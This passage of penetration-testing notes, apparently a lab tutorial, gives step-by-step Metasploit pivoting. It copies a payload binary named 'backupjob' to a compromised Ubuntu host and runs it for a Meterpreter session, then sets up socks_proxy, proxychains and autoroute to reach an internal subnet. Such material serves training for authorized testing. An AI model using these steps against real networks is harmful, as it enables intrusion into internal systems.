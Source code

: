 **3.** Copy the backupjob binary file to the Ubuntu pivot host over SSH and execute it to gain a Meterpreter session.

```shell-session
# From kali, we copy the file to the Ubuntu compromised machine
scp backupjob $username@$ipUbuntuCompromisedmachine:~/

# Connect to the victim's machine
ssh $username@$ipUbuntuCompromisedmachine
chmod +x backupjob 

# And execute it
./backupjob
```


**4.** Once the meterpreter Session is established, send the session to the background with CTRL-z and in the same terminal use Metasploit's post-exploitation routing module `socks_proxy` to configure a local proxy on our attack host.

```shell-session
use auxiliary/server/socks_proxy
set SRVPORT 9050
set SRVHOST 
set version 4a
run
# This SOCKS configuration will start a listener on port 9050 and route all the traffic received via our Meterpreter session.

# This SOCKS configuration will start a listener on port 9050 and route all the traffic received via our Meterpreter session. Even though the command line has not returned anything you can ask for the jobs in execution with:
jobs
```

**5.** Add a Line to proxychains.conf if needed (in your kali machine).

```shell-session
socks4 	127.0.0.1 9050
# Note: Depending on the version the SOCKS server is running, we may occasionally need to changes socks4 to socks5 in proxychains.conf.
```

**6.** Finally, we need to tell our socks_proxy module to route all the traffic via our Meterpreter session. Use the post/multi/manage/autoroute module from Metasploit to add routes for the 172.16.5.0 subnet and then route all our proxychains traffic.

```shell-session
use post/multi/manage/autoroute
set SESSION 1
set SUBNET $NewSubnet
# Example: set SUBNET 172.16.5.0
run
# this will bind session 1 to the $NewSubnet discovered in the victim's machine 1, doing the pivoting

# It is also possible to add routes with autoroute by running autoroute from the initial Meterpreter session (session 1):
sessions -i 1
run autoroute -s $NewDiscoveredIp/16

# List the active routes:
run autoroute -p
```
